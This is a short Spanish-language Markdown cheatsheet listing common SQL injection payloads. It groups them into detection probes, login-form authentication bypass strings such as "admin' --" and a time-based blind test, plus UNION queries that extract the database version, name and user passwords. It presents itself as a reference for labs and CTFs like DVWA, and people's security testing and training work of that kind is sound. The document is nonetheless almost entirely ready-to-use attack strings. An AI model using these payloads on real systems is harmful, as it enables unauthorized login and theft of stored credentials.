 # 🔍 SQLIjection PayLoads Cheatsheet

>  Lista de SQL Injection payloads comunes agrupados por categorías. Son útiles para pruebas manuales en aplicaciones vulnerables, como en laboratorios, CTFs o entornos como DVWA, OWASP BWA, Mr. Robot, etc.



---

##  🧪 1. Pruebas básicas para detectar SQLi

' OR '1'='1

" OR "1"="1
' OR 1=1 --
" OR 1=1 --
' OR 'a'='a
' #
'-- 

### 🛡️ 2. Bypass de autenticación (login forms)

admin' --
admin' #
admin' or '1'='1
' or 1=1 limit 1; --
' or sleep(5) --  -- (para detectar blind SQLi)

### 📊 3. Enumeración de datos

' UNION SELECT null, version() -- 
' UNION SELECT null, database() --
' UNION SELECT user(), password FROM users --

